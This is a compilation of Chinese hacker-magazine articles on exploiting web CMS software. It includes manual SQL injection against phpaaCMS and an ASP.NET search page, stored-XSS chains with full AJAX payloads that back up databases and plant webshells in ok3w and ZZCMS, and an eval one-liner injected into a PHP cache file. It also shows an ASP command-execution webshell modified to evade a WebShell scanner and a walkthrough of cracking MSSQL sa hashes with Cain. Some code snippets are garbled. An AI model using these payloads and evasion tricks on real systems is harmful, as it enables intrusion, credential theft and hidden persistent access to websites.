（文章中涉及到的 PasswordsPro v2.4.2.1 汉化版、Winrtgen，已经收录在了光盘中）


## 循序渐进分析漏洞

### 沙丞手工注入

终于等到了放假，又可以在家好好地研究黑客技术了。话说 Internet 经过这么多年的发展，网络安全问题越来越受到人们的重视，而漏洞的挖掘也越来越难了，因此在黑客的地下市场上，0day 越来越少，价格越来越贵。不管是作为一个合格的网络安全爱好者，还是作为一个合格的黑客，掌握漏洞分析的技术都非常重要。在本篇文章里，我就简单地向大家介绍一下脚本程序漏洞的简单挖掘和利用（即手工注入）。

目前的 PHP 大行其道，其发展前景要比 ASP 好多了，再加上以前分析 ASP 漏洞的文章写过很多，因此我们就以 PHP 为例。我先在源码网下载一套名为 phpaaCMS 的程序，然后又在本地电脑上搭建好了测试环境（Apache2.24+MySQL5.1.4+PHP5.2.12）。关于如何搭建 PHP 测试环境大家都已经会了吧，在去年第 1 期的杂志中曾经详细地介绍过。我们还可以使用 APMSer 来快速搭建。


这套程序的主界面如图2所示，最下方圈起来的就是它的版权信息。我们在百度或 Google 中可以把它们作为关键字来进行搜索，就可以找到使用这套系统的用户了。这是一套文章管理系统，对于文章系统一般是先检查显示文章的页面，因为这个页面调用得最多。我们打开 show.php 来仔细地查看一下源代码，如图3。

```php
<?php
include_once 'header.php';

$arc = getArticalInfo();
...
<title><?php echo $arc['title']; ?></title>
...
<td align="left" class="white"><?php echo $arc['content']; ?></td>
...
include_once 'footer.php';
?>
```

```php
<?php
header('Content-Type: text/html; charset=utf-8');
if(!is_file(dirname(__FILE__).'/data/database.inc.php')){
    exit('phpaaCMS 尚未安装!');
}
include_once 'include/config.inc.php';
include_once 'include/common.function.php';
...
<title>phpaa文章管理系统</title>
```

下载回来的 phpaaCMS 源程序解压，存放到网站根目录下，打开 IE，在地址栏直接输入 localhost，就可以进行安装了。数据库连接密码也就是我们 MySQL 的密码，如图1，整个安装过程非常简单，一会儿就安装完毕了。

在 show.php 里没有 getArticalInfo() 函数的定义，所以它来自于包含进来的 header.php。我们打开 header.php 文件，原来这是个网页头文件，里面也没有函数定义，不过它又包含了两个文件，分别是 include/config.inc.php 和 include/common.function.php，如图4。


终于找到了 getArticalInfo() 的函数定义。大家看到没有，`$_GET[id]` 之后就直接带入查询了，并没有任何过滤。我们再仔细看 `$id` 并没有加单引号，所以这是个数字型注入。我们来测试一下，在网址后面添加 `and 1=1`，提交后显示正常；再添加 `and 1=2`，提交后返回了不同结果。

接下来我就使用手工注入的方法来给大家介绍一下漏洞的利用。首先是判断数据库版本（虽然我知道这本机上的 MySQL 是什么版本，但在实际的入侵过程中，这是第一步），在网址后面添加“and ascii(left(version(),1))>51”，提交后返回正常，说明数据库版本大于 3.0.0，也就是 4.0 以上，支持 union 查询，如图8。

黑客研究院


图6


图7


图8

然后是判断字段数，在网址后面添加“order by 14”、“order by 15”等进行提交，当使用“order by 16”时返回了错误，说明字段数为 15。我们再使用 union 查询来确认一下，在网址后面添加“and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15--”，提交后如图9所示。返回了 3 和 11，说明这两处是可用字段，我们就使用这两处来暴信息吧。先来爆用户名和版本信息，在网址后面添加“and 1=2 union select 1,2,version(),4,5,6,7,8,9,10,user(),12,13,14,15--”，提交后如图10所示。

接下来就是猜表了，大家要注意，当 mysql 版本是 5.0 以上时，可以使用 information_schema 库暴表名和字段名，这里我们就使用通用的猜解。由于有代码，我就不浪费时间了，使用 phpmyadmin 直接查看一下数据库里都有哪些表和字段吧，如图11。存在 cms_users 表，其字段是 username 和 password，所以我们的提交语句就是“and 1=2 union select 1,2,username,4,5,6,7,8,9,10,password,12,13,14,15 from cms_users--”，如图12。


图9


图10


图11


图12

得到了管理员的 MD5 密码后，我们就拿到 cmd5 网站上在线破解，破解出来后就是在后台登录并尝试得到 shell 了。如果在后台没有找到拿 shell 的地方，我们还可以想其他的办法。这套系统几乎都没有过滤参数，关于注入漏洞我们就先介绍到这里吧。

我发现它还有一个留言板，其页面是 message.php。留言板很容易产生跨站漏洞，我们来看看这个文件的代码，如图13。姓名、性别、电话等表单信息发送到了 message.php，所以我们接下来就看看 message.php 里有没有过滤这些变量，如图14。


图13

在 message.php 里它把提交上来的变量放到了 `$record` 数组中，但在带入 insert() 函数查询时，这一步却没有过滤，如图15，而是直接插入到数据库里了，再来看看它是怎么显示的。

嗯，如图16。


大家看到没有，直接从数据库里读出来并放到了各个位置，没有过滤，所以跨站漏洞就产生了。我们来测试一下，把 `<script>alert("Ka-shir-Xss")</script>` 这句代码填入到各个信息框中，点击“提交”，没有提示任何错误，如图18。还需要管理员审核哦，我们使用刚才爆出来的用户名和密码马上登录进入后台看看，如图19。跨站成功了，如果前面我们查询不出来密码时，也可以跨站挂马、偷 cookies……“跨站没有做不到，只有想不到”！


由于这是一套新程序，网上使用的人并不多，大家也就别去搜了，权当自己练手用吧，它的变量几乎都没有过滤哦，小菜们可以练练手找找看，如图20。

利用脚本源代码来寻找漏洞其实是很费劲的，我们需要紧跟提交的变量。目前的大型系统可以说是越来越安全了，我们就更不能放过一个，这是个细活。好了，文章就写到这儿吧，希望大家都能从中学会一些知识！

## 巧妙突破 Web 杀毒

这天无事在“鬼仔”的博客上瞎转悠，看到鬼仔介绍了一款名为“Web杀毒 v1.1”的工具，介绍说 Safe3 WebShell Scanner 是国内率先推出的一款绿色完全免费的 Web 代码查杀软件，独创的智能扫描技术能够有效地扫描 asp、php、jsp、aspx 等多种 WebShell，弥补了杀毒软件不能完全查杀 WebShell 的不足。我一时来兴趣，就下载了该软件，软件打开后的界面如图1所示，很清爽，使用的方法也非常简单，点击左下角的“浏览路径”选择要检查的目录，然后点击右下角的“开始扫描”就行了。

这让我想起了以前自己编写的一个 WEBSHELL，是使用 ASP 编写的，由于实在不怎么样也就一直是自己凑合着使用……

# 黑客研究院


图1


图2


图3

于是我就使用这个工具检测了下自己的 asp 马，结果如图2所示，果然被查出来了，这下我就非常好奇了，到底这个工具是以什么为特征字符串来检查的呢？接下来我就开始进行了分析和测试。

首先把 asp 马分成两部分，将第一部分放入新文件中进行查杀，结果发现没有检测出木马，于是可以断定特征码是在第二部分内容中。使用相同的方法，再把第二部分内容放到新的文件中进行查杀，结果如图3所示，果然被杀了。接下来就是做相同的事情了，把存在特征码的内容再分成两个部分，先把第一部分放到那个 1.asp 文件中，如果被查杀就说明特征码是在前半部分内容中，否则就是在后半部分内容中，如此反复操作，最后我定位出的特征码大概为：

```asp
if Request.Form("shellpath")<>"" then
  ShellPath=Request.Form("shellpath")
  If Request.Form("cmdec")<>"" Then
    defcmd=Request.Form("cmdec")
    On Error Resume Next
```

其实查找文本文件特征码的方法和查找 EXE 文件是差不多的，对于文本文件都是先取部分文本内容放到一个新的文件中进行查杀，如果被查杀就再减小范围，直到最后把内容确定在一个比较小的范围内，就是特征码了。

```asp
Set ws=Server.CreateObject("WScript.Shell")
Set fso=Server.CreateObject("Scripting.FileSystemObject")
szTempFile = server.mappath("cmd.txt")
Call ws.Run (ShellPath&" /c " & DefCmd & " > " & szTempFile, 0, True)
Set fs = Server.CreateObject("Scripting.FileSystemObject")
Set oFilelcx = fs.OpenTextFile (szTempFile, 1, False, 0)
aaa=Server.HTMLEncode(oFilelcx.ReadAll)
oFilelcx.Close
Call fs.DeleteFile(szTempFile, True)
end if
```


图4

这段代码是用来执行 CMD 命令的，再结合检测程序所报告的木马类型为“asp 执行命令木马”，可以断定基本上不会错了。最后经过反复的测试，发现特征码就是 `Call ws.Run (ShellPath&" /c " & DefCmd & " > " & szTempFile, 0, True)`，我把其中的 run 更改成 RAN，再次进行查杀，就发现已经不被杀了，如图4。这下我总算是找到罪魁祸首了，接下来就是怎么才能免杀了。

首先我想到的就是把“RUN”作为字符串来执行，这样就可以把 run 给拆开了，然后使用 execute 就可以执行了，具体的操作就是把代码更改成：

```asp
<%
a="call ws.r" & "un(" &shellpath & " /c" &defcmd & ">" & zTempFile & ", 0, True)"
execute a
%>
```

原本以为这样就可以突破了，但更改后的结果仍旧是被查杀，不过报告的结果却变了，原来是被当做一句话木马了，想想也是，因为使用到了“execute”嘛，如图5。我又尝试了“eval”和“Server.Execute”，发现也都会被查杀，接着我又想到了使用 classid 的方法，因为通过这种方法也是可以使用 Wscript 的，具体代码如下：

```html
<object runat="server" id="ws" scope="page" classid="clsid:72C24DD5-D70A-438B-8A42-98424B88AFB8"></object>

<object runat="server" id="ws" scope="page" classid="clsid:F935DC22-1CF0-11D0-ADB9-00C04FD58A0B"></object>

ws.run ...
```


图6


图5

但还是会被查出来，这下我就非常郁闷了，看来文件的特征码是集中在“*.run”上了。经过一段时间思考后，我认为既然程序盯上了“*.run”，那么把它改成“* .run”的形式呢？测试发现程序仍可运行，修改后依然可以执行 CMD 命令，如图6；但使用“web杀毒”已经检查不出木马了。到此我们的免杀也就成功了。

> （文章中涉及到的 webscan 以及 EC——Webshell1.0.asp，已经收录在了光盘中）

## Web安全之XSS挖掘利用——对ok3w的深入分析


官方回应，如图1。


图1


图2

好友的网站使用到了 ok3w 这套 CMS 系统，据说这套系统代码很严谨，还可以方便地进行二次开发。于是我想检测一下其安全性。检测之前我先搜索了这套 CMS，找到了很多分析其漏洞的文章。

我仔细看了看，发现所提到的漏洞按照作者所述确实不能加以利用。在成功爆出数据库地址后，直接在浏览器中打开，返回结果如图2所示。这是因为开发者在数据库的相关表中做了额外处理：

`<%@ LANGUAGE="VBSCRIPT" CODEPAGE="936"%><%@ LANGUAGE="VBSCRIPT" CODEPAGE="936"%>`

这样就造成了解析错误，所以就如作者所说的那样，插入一句话木马后也是无法成功执行的。可能有的朋友会想到添加容错语句“On Error Resume Next”等等，我也做了测试，但也都是无效的。看着官方的回应，感觉也未免太过绝对了，于是我再次对其分析了一下，下面就把对漏洞的探索与利用方法记录下来，与小菜们分享。

先搭建好测试平台，将 ok3w 的代码放到 IIS 的 WEB 目录里，再在 Dreamweaver 中建立好站点，注入漏洞依旧是我们优先考虑的。从程序对数据的获取是否全面等就可以大概地猜测出程序员的安全意识。使用“request”作为关键词搜索了一下，如图3。客户端提交数据被 myCdbl() 函数处理了，跟随了一下这个函数，发现其代码如下。

```asp
Function myCdbl(str)
    If str = "" Or Not IsNumeric(str) Then
        Call Page_Err("参数错误：要求为数字型。")
    Else
        myCdbl = Cdbl(str)
    End If
End Function
```

这个函数用来判断获取的变量类型，如果不是数字型数据则提示出错，看来自注入的防范很到位。至于其它的就不用看了，估计不会有漏网之鱼的。来看看前台的跨站是如何产生的，能否换成其它的方法进行利用。程序里“一个又一个的类”，好不容易才找到获取数据的代码，如下：

```asp
Private Sub GetFormData()
pID = Cdbl(Request.Form("pID"))
If pID="" Then pID = 0
```

```asp
Title = Trim(Request.Form("Title"))
UserName = Trim(Request.Form("UserName"))
Mail = Trim(Request.Form("Mail"))
Homepage = Trim(Request.Form("Homepage"))
Content = Trim(Request.Form("Content"))
QQ = Trim(Request.Form("QQ"))
TypeID = Trim(Request.Form("TypeID"))
If TypeID="" Then TypeID=1
TableID = Trim(Request.Form("TableID"))
If TableID="" Then TableID=0
AddTime = Now()
Ip = Request.ServerVariables("REMOTE_ADDR")
IsPass = 0
IsTop = 0
End Sub
```


图3

可以看到程序确实没有对数据进行任何过滤，这下跨站漏洞就出现了，那么要如何利用呢？来看看后台都有什么功能。以管理员身份登录后台，发现有数据库备份功能，如图4。打开 WsockExpert 选中后台管理页面，然后进行备份，抓取到的数据如图5所示。将其整理到一个 txt 文件中，在最后发现了“ss=..%2FDb%2FOk3w%2346%23ASPACC.ASP&tt=fjhh.mdb&action=backup&Submit=%CC%E1%BD%BB”，其中“ss=..%2FDb%2FOk3w%2346%23ASPACC.ASP”的 ss 的值就是数据库的相对地址，这里被编码了，而“tt=fjhh.mdb”就是备份的数据库名。


图4


图5

看到这里，思路也就清晰了，我们可以通过 XSS 利用管理员的后台进行备份，将数据库备份成 mdb 格式，然后再将其下载。好了，下面我们就来构造利用代码。先直接在浏览器中访问“/AppCode/conn.asp”，在暴露出数据库地址后将路径中的特殊符号等使用 URL 编码，然后再修改成如下的代码。

```javascript
var request=false;
if(window.XMLHttpRequest){
  request=new XMLHttpRequest();
  if(request.overrideMimeType){
    request.overrideMimeType('text/xml');
  }
}else if(window.ActiveXObject){
  var versions=['Microsoft.XMLHTTP','MSXML2.XMLHTTP', ...];
  for(var i=0;i<versions.length;i++){
    try{ request=new ActiveXObject(versions[i]); }catch(e){}
  }
}

xmlhttp=request;
getshell();

function getshell(){
  var postStr='...';
  xmlhttp.open('POST','/test/Qk3w.AspNews/Admin/Sys_dbasp',true);
  xmlhttp.setRequestHeader('Content-type','application/x-www-form-urlencoded');
  xmlhttp.setRequestHeader('Content-length',postStr.length);
  xmlhttp.setRequestHeader('Connection','close');
  xmlhttp.send(postStr);
}
```

将以上代码保存成 fjhh.js 文件，我们可以将其上传到支持 asp 的空间中，这里我就在本地进行演示了，存放到 WEB 根目录下，其访问地址为“http://localhost/fjhh.js”。在留言处发表留言，留言的内容如图6所示，成功后就等着管理员登录后台了。

下面我们就以管理员身份登录，查看留言，很正常，没什么反应，如图7，但事实上数据库已经神不知鬼不觉地被备份了，查看文件属性与日志记录，对照效果图如图8所示。


图6


图7


图8

数据库备份成功后我们就可以下载了，只要密码不是很复杂，在 CMD5 等网站在线查出密码后就可以登录进入后台了。经测试发现该套 CMS 系统不存在上传漏洞，拿 webshell 还是只能使用数据库备份。但数据库备份页面中的数据库地址无法被修改。我修改了一下页面（文件已打包收录），大家在利用时只需要将表单中的 action 值修改为你测试网站的 URL 即可。打开页面后，填入上传成功的图片木马，如图9，然后点击备份，提示备份成功，如图10，这样我们的 webshell 就备份到 Admin 目录下了，如图11。


图10

关于这套系统的分析与简单的利用过程就为大家介绍到这里，在最后的备份拿 webshell 中大家要注意相对路径、绝对路径等细节问题，否则就会出现找不到文件的错误。程序是否还存在其它漏洞，是否如官方描述的那样安全，这就需要读者的挖掘了。


图9


图11

> （文章中涉及到的 WSockExpert、修改后的 DBFuck.html、fjhh.js 等，已经收录在了光盘中）


## 看小菜再来破解 MSSQL Hash

在网站渗透和内网渗透中，破解 MSSQL 的密码 Hash 值，尤其是 sa 用户的密码 Hash 值是非常有用的，因为破解成功的话我们就会得到一个明文密码，而这个密码在提权和进一步的渗透中都是非常有用的，本文我就把破解 MSSQL Hash 的方法和大家分享一下。

在破解 MSSQL Hash 前我们先来了解一下 MSSQL 是如何存储密码的，通过在网上查询相关资料知道了 MSSQL 是使用了一个没有公开的函数 pwdencrypt() 对用户密码进行加密后产生一个 Hash。密码的 Hash 在 MSSQL2000 中是存储在 master 数据库的 sysxlogins 表中，而在 MSSQL2005 中，密码 Hash 是存储在 sys 数据库的 sql_logins 表中的。

MSSQL Hash 到底是什么样子的呢？我电脑上安装了 Microsoft SQL Server 2000，大家来看 sa 用户的 Hash 是什么样的。使用 sa 用户登录进入查询分析器，执行以下 SQL 命令：`select password from master.dbo.sysxlogins where name='sa'`，显示的 Hash 为“0x0100A943A918BD94A1530E1231F714FD32C7A58752F3DF20D670BD94A1530E1231F714FD32C7A58752F3DF20D670”，如图1。


图1

Hash 值比较长，共有94位，Hash 可以分为4段，前6位为常量部分，这里为 0x0100，接着的8位是 Salt 部分，这里为 A943A918，再接下来的40位是大写字母密文，这里为 BD94A1530E1231F714FD32C7A58752F3DF20D670，最后40位是混合密文，这里为 BD94A1530E1231F714FD32C7A58752F3DF20D670。

尽管加密函数 pwdencrypt() 的细节并没有公开，但却并不妨碍我们看到一些有趣的现象。我们在查询分析器中执行以下 SQL 命令 `select pwdencrypt('hackerxfiles');`，得到了字符串 hackerxfiles 经过 pwdencrypt() 函数加密后的 Hash，为“0x01006A48A807ACB8ECD81645C6E8F2CAB0015602CED38A29FAC64A4584A3EEA931C9638837345B00E0B802C94A7C”，如图2。


图2

再次执行 SQL 命令 `select pwdencrypt('hackerxfiles');`，这次得到的 Hash 却为“0x0100D54BE47B020C026DB10A4C00CFC898BC3D27DD62A4E2361CFA20665561C0EA3D1F0E33918C9DE89EB8965647”，很明显和上次生成的 Hash 不一样了，如图3；再多执行几次 `select pwdencrypt('hackerxfiles');` 命令，发现得到的 Hash 都各不相同。

同。这也就是说，同一个密码明文经 `pwdencrypt()` 函数加密后得到的 Hash 并不是一个，而是有很多。

图3

那么到底是什么使两次 Hash 的结果不一样呢？有人大胆地推测说是时间在这里面起到了关键的作用，它是创建密码 Hashes 和存储 Hashes 的重要因素。之所以使用这样的方式，是因为当两个人输入了同样的密码时，可以以此产生不同的密码 Hashes 用来掩饰他们的密码是相同的。

接着我们再来看 `pwdencrypt()` 函数的一些有趣的现象，执行 SQL 命令 `select pwdencrypt('123456');` 得到加密后的 Hash，并将该 Hash 按照 4 个段来分开表示。

| 字段 | 值 |
|---|---|
| 常量部分 | 0x0100 |
| Salt 部分 | 57548760 |
| 大写字母密文 | 929EA9892D53BDFBA6E2511A323E462C2645E037 |
| 混合密文 | 929EA9892D53BDFBA6E2511A323E462C2645E037 |

我们可以看到 Hash 的混合密文部分和大写字母密文部分相同。再次执行 `select pwdencrypt('123456');`，这次得到的 Hash 不同，再次把这个 Hash 按照 4 个段来分开表示。

| 字段 | 值 |
|---|---|
| 常量部分 | 0x0100 |
| Salt 部分 | B36CDD48 |
| 大写字母密文 | 7C2C661BAB791B39F2599CEDC7093E730BD347F5 |
| 混合密文 | 7C2C661BAB791B39F2599CEDC7093E730BD347F5 |

仍然是 Hash 的混合密文部分和大写字母密文部分相同。经过多次测试，凡是明文密码全是数字的，经过 `pwdencrypt()` 函数加密后得到的 Hash 的混合密文部分和大写字母密文部分都相同。

我们继续执行 SQL 命令 `select pwdencrypt('HACKERX-FILES');`，得到的 Hash 显示其混合密文部分和大写字母密文部分相同。再执行 `select pwdencrypt('ABC123');`，结果同样如此。综合测试结论：由纯数字、纯大写字母、数字和大写字母组成的明文密码，在经过 `pwdencrypt()` 后得到的 Hash 中，混合密文部分与大写字母密文部分相同。

这个结论在破解时很有用：若得到一个 Hash 其混合密文部分和大写字母密文部分相同，可优先假设密码不含小写字母，再依次尝试纯数字、纯大写字母、数字与大写字母混合等情况，以提高破解效率。

在实际入侵或渗透中，得到 sa 用户 Hash 值的重要途径之一是注入漏洞。在权限允许时，可执行：`select password from master.dbo.sysxlogins where name='sa'` 获取 sa 用户密码 Hash（Microsoft SQL Server 2000）。

下面使用一条 sa 用户 Hash 值作为示例来演示破解 MSSQL Hash 的方法，并将 Hash 分为 4 个部分。

| 字段 | 值 |
|---|---|
| 常量部分 | 0x0100 |
| Salt 部分 | A943A918 |
| 大写字母密文 | BD94A1530E1231F714FD32C7A58752F3DF20D670 |
| 混合密文 | BD94A1530E1231F714FD32C7A58752F3DF20D670 |

破解 MSSQL Hash 使用的工具是 Cain（4.9.31）。安装后打开 Cain，进入“Cracker”菜单，在选项中选择“MSSQL Hashs”，并在空白处右键“Add to list”添加待破解 Hash（如图5）。

图4

“Add to list”就可以选择破解时使用的字典文件了，选择好字典文件后点击“Start”按钮就可以进行破解了。我这里选择了 Cain 自带的一个字典文件，就是 Cain 安装目录下 Wordlists 目录下的 Wordlist.txt，点击“Start”按钮后瞬间就破解出了密码 123456，如图9。

图7  
图5  
图8

然后就会弹出来如图6所示的“Add MSSQL Hashs”（添加 MSSQL Hashs）窗口，默认选择的是“Insert the hash manually”，“Salt”就不用我解释了吧，“Uppercase Hash”是大写字母密文的意思，“Mixcase Hash”是混合密文的意思。把要破解 Hash 对应的部分都填上，点击“OK”按钮后就添加好了一条待破解的 Hash。

图6  
图9

在添加好的待破解的 Hash 上点右键，就会出现如图7所示的菜单，第一项“Dictionary Attack”是字典攻击的意思，也就是使用字典文件来破解 Hash，后面还有“UPPERCASE Hashs”和“MixCASE Hashs”两个下级菜单，分别表示用字典破解大写字母密文和用字典破解混合密文；第二项“Brute-Force Attack”是暴力破解的意思，它下面也有“UPPERCASE Hashs”和“MixCASE Hashs”两个下级菜单。

选择“Dictionary Attack”下的“Uppercase Hash”后就会出现如图8所示的窗口，在添加字典文件的地方点右键，选择……

我们再使用一下暴力破解方法，选择“Brute-Force Attack”下的“Uppercase Hash”，就来到了暴力破解 Hash 的地方，“Charset”中的“Predefined”给出了很多预设的密码可能，比如要破解纯数字组成的密码就选择 0123456789，如果是纯大写字母组成的密码就选择 ABCDEFGHIJKLMNOPQRSTUVWXYZ，如图10。

当然，我们也可以在“Custom”中自己定义密码具体由哪些数字字符号组成的，这里我选择了“Predefined”中的 0123456789，“Password length”可以设置密码的最小位数和最大位数……“Current password”“Key Rate”“Time Left”等字段含义说明破解剩余的时间，设置完成后点击“Start”按钮也瞬间破解出了密码 123456，如图11。密码越复杂，破解所用的时间就越长……

图10  
图11

## 浅议 ZZCMS 0day 以及 web2.0 下的跨站拿 shell

Kashi [S.S.T]

ZZCMS 是一套小巧、高效、人性化的企业建站程序……系统内自带了 4000 多条同义词……对我来讲，从程序代码中发现 0day 漏洞倒不是难，困难的是如何利用……

我们再来简单了解一下 web2.0 的 ajax，ajax 是 Web2.0 的标志性技术……XMLHttpRequest 的主要实现方法有 `open()`、`send()`、`setRequestHeader()`。

好了，有了上面的这些基础知识，我们就可以进入正题了。为什么我要说这套 CMS 系统的安全性还不错呢……`Md5()` 函数是以密码+加密字符作为参数的……

cmd5 等网站上也查询不出来，这招够狠吧，相信以后越来越多的系统也都会使用这种加密方法来提高网站安全性的。

图1

```php
$arris_array($row['$row'])=fetch_array($rs));
$pass=$arr['md5($password.$zcms)']==$row['password']?false;
if($pass){
  $_SESSION['uid']=$row['uid'];
  $_SESSION['admin_shell']=md5($row['name'].$row['password'].$_ZCMS);
  ...
}

（代码截图）
```

图2

还有 `include\global.php`，每个文件都包含了它，代码如下：

```php
if($_REQUEST){
  if(get_magic_quotes_gpc()){
    $_REQUEST = zc_strip($_REQUEST);
  }
}

（代码截图）
```

# 黑客研究院

如果 gpc 是 off 的话，这个文件就会自动调用 `addslashes()` 函数转义。曾经最风光无限的注入漏洞现在反而变成鸡肋了。分析到这一步，似乎这套系统真的很难搞，不过其介绍中提到采用了缓存技术以让访问速度更快，我们再来看它的缓存目录，如图3。

确实是生成了 php 文件，那么我们的思路也就有了：能否写一句话木马到缓存中呢？这很可能需要有后台权限。进入后台后，除注入漏洞外，就是跨站漏洞了。在 web2.0 下，ajax hacking 可起到大作用。接下来先查看留言部分，这里是 `book.php`，提交函数如图4，数据进入 `add_book()` 处理，再看 `add_book()` 函数（图5），使用了 `zc_scrip()` 过滤，然后进入数据库，我们来看 `zc_scrip()` 如何过滤（图6）。

```php
if(!isset($action)&&$action=='add'){
    $book->add_book();
}else{
    $book->book_list(10);
}
```

图4

```php
function add_book(){
    // ...
}
```

图5

```php
function zc_strip($string){
    if(is_array($string)) return stripslashes(this($string));
    foreach($string as $k=>$v) $string[$k]=zc_strip($v);
    return $string;
}
```

图6

`zc_scrip` 就是调用 `stripslashes()` 转义，与 `addslashes()` 恰好相反，它去掉特殊符号前的斜杠“\”。在找到跨站漏洞后，如何利用呢？后台有生成缓存的功能，将数据转换成数组 `array` 并写入 php 文件；在“替换词组管理”中有“添加词组”功能，这样可构造词组来闭合 `array` 及后续单引号等。

由于后台文件同样包含 `include\global.php`，直接提交单引号会提示添加或修改失败。经过调试后可成功闭合，示例载荷形如：`\');eval($_POST['k']);array('xxoo`。前面的斜杠用于让 `stripslashes()` 过滤后保留单引号。未加入语句时代码如图9，加入后如图10。

```php
'程序' => 'ZZCMS',
// ...
?>
```

图9

```php
'程序' => 'ZZCMS',
'SYS' => '' );eval($_POST['k']);array('xxoo',
// ...
?>
```

图10

整个文件代码简化为 `<?php array(...);eval($_POST['k']);array(...);?>`，完成闭合。接下来可用抓包构造 ajax 代码，跨站执行语句。

```javascript
function createRequest(){
    // 创建 XMLHttpRequest 对象
    var xmlHttp;
}
```

```javascript
if(window.ActiveXObject){
    xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
}else if(window.XMLHttpRequest){
    xmlhttp = new XMLHttpRequest();
}
return xmlhttp;

http1=createRequest();
var url1="/admin/ZC_Keyword_Edit.php?action=add";
var params1="..."; // 抓包得到的添加词组数据
http1.open("POST",url1,true);
http1.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
http1.send(params1);
delete http1;

http2=createRequest();
var url2="/admin/ZC_Make_Cache.php?action=make";
http2.open("GET",url2,true);
http2.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
http2.send(null);
delete http2;
```

上面两步就是添加 SYS 词组，然后强行更新缓存，具体得到的 shell 就在 `/data/system_keyword.php`。成功后可用一句话木马客户端连接，连接密码为 `k`。将上面的 ajax 代码保存为 `1.js` 并上传，在系统留言内容处写入跨站代码，登录后台查看留言后成功添加词组并更新缓存，随后连接 `/data/system_keyword.php` 即可拿到 shell。

其实连接根目录下的 `about.php` 也可以，因为它也包含了 `/data/system_keyword.php`。后续大致检查未发现上传与文件包含漏洞，在注入无法利用情况下，跨站终于开始显示威力。

小菜们可要好好学学跨站了，在 Internet 环境中它的作用可大着呢！

```php
if($is_seo){
    include(ZZCMS_ROOT."data/system_keyword.php");
    echo $row['content'].$strtr($row['content'],$keyword_system);
}else{
    echo $row['content'];
}
```

最后再纠正一下：该系统并非完全没有注入点。在 `about.php` 文件中，如果条件合适可用 `load_file()` 读文件，但这类机会较少。现在管理员安全意识提高，很多场景会做数据库降权。本文利用过程几乎每一步都是一点点试出来的，找漏洞需要耐心、细心和决心。

> （文章中涉及到的 zzcms 源程序以及 1.js，已经收录在光盘中）

## 我是注入原理狂热粉

我刚接触脚本注入时，看网上教程中前辈们在注入点输入 `union select` 等语句就能导出信息，感觉很厉害。那时自己还是新手，后来经过学习终于明白原理，于是把学习心得写出来，希望和我一样的新手在学习过程中少走弯路。

### 一、SQL注入原理

关于注入漏洞的形成，是由于程序员在编写代码时对获取的值过滤不严，直接带入数据库查询而造成的。构造 SQL 语句来达到攻击的目的，这就是注入攻击。下面我就使用自己编写的一个带有搜索型注入的 ASP.NET 脚本来帮大家更好地理解。

测试环境为 ASP.NET + SQL Server 2005，ASP.NET 代码如下：

```csharp
protected void Button1_Click(object sender, EventArgs e)
{
    string connuser = @"Data Source=...\\SQLEXPRESS;Initial Catalog=hacker;Integrated Security=True";
    string sql = string.Format("SELECT * from sqltest where names like '%{0}%'", TextBox1.Text);
    SqlConnection conn = new SqlConnection(connuser);
    conn.Open();
    SqlCommand comm = new SqlCommand(sql, conn);
    SqlDataReader reder = comm.ExecuteReader();
    while (reder.Read())
    {
        Label2.Text += reder[0].ToString() + " ... " + reder[1].ToString() + " ... " + reder[2].ToString() + " ... " + reder[3].ToString() + "<br>";
    }
    conn.Close();
}
```

关于数据库建表的代码由于篇幅我就不贴出来了，已经收录在光盘中，大家可以仔细查阅一下。数据库结构如图1所示，Admin 表保存管理员账户和密码信息，sqltest 保存用户信息。

#### 1、漏洞形成分析

大家仔细来看这一段代码：

```csharp
string sql = string.Format("SELECT * from sqltest where names like '%{0}%'", TextBox1.Text);
SqlConnection conn = new SqlConnection(connuser);
conn.Open();
SqlCommand comm = new SqlCommand(sql, conn);
```

`TextBox1.Text` 的值是用户输入要查询的关键字，然后带到 SQL 语句中执行。`TextBox1.Text` 的值没有经过任何处理就带到了数据库中查询，注入漏洞也就由此产生了。

#### 2、脚本中用到的搜索 SQL 语句分析

语句如下：`SELECT * from sqltest where names like '%{0}%'`。我解释一下，“%”匹配任何字符，“like”的意思就是像。比如我们在搜索框输入关键字“张”，那么 SQL 语句就变成了 `SELECT * from sqltest where names like '%张%'`，意思就是查询 names 列里带有关键字“张”的数据，如图2。

如果我们在输入关键字的时候不是输入“张”，而是精心构造的 SQL 语句，并且对输入关键字没有过滤，那么注入就形成了。现在不明白注入原理的朋友应该都明白了吧。

#### 3、关于漏洞的利用测试

接下来我以一个入侵者的角度来模拟一次入侵，演示如何使用“union select”语句来爆用户名称和密码，以及在 DB 和 SA 权限下如何获取 webshell。作为一个入侵者，首先要判断是否存在注入，我们在搜索框输入 `张%' and '1'='1' and '%'='`，查询结果如图3所示。

这时候脚本中的查询 SQL 语句是这样的：`SELECT * from sqltest where names like '%张%' and '1'='1' and '%'='%'`。然后再输入 `张%' and '1'='2' and '%'='`，两次查询结果不同，那么就可以确定存在注入了。

我们再来判断一下 WebShell，请希望大家谅解。字段长度，在搜索框中输入`张%' and '1'='1' and '%'='%' order by 4 --`，返回了正常的页面；输入`张%' and '1'='1' and '%'='%' order by 5 --`的时候返回了错误页面，由此可以确定字段数为 4。

继续输入`张%' and '1'='1' and '%'='%' union select '1','2','3','4'--`，返回了字段在页面中相应的位置。接下来模拟爆破管理员密码，`Admin`表中有`adminPass`、`adminName`、`adminId`等列。进行`Union select`时需要注意类型匹配，例如`adminId`为 int，而目标表第一列可能为 varchar，直接匹配会报错。

```sql
张%' and '1'='1' and '%'='%' union select adminId,adminName,adminPass,'4' from admin--
```

将`adminId`替换到 int 类型对应位置后再注入：`union select adminPass,adminName,adminId,'4' from admin--`，即可避免类型冲突，把密码、用户名、用户 ID 爆出。

## 二、DB权限下获取WebShell

在 DB 权限下可以通过备份功能在 Web 目录下获得 WebShell。文中测试路径示例为`D:\My Documents\Visual Studio 2008\WebSites\WebSite1`。先注入`union select db_name(),'2','3','4'--`爆出当前数据库名。

- 1. 备份当前数据库：`张%' and '1'='1' and '%'='%';declare @a sysname,@s varchar(4000) select @a=db_name(),@s=0x6861636B6572 backup database @a to disk=@s--`
- 2. 创建`Feitest`表：`张%'and '1'='1' and '%'='%';create table [dbo].[Feitest]([cmd] [image])--`
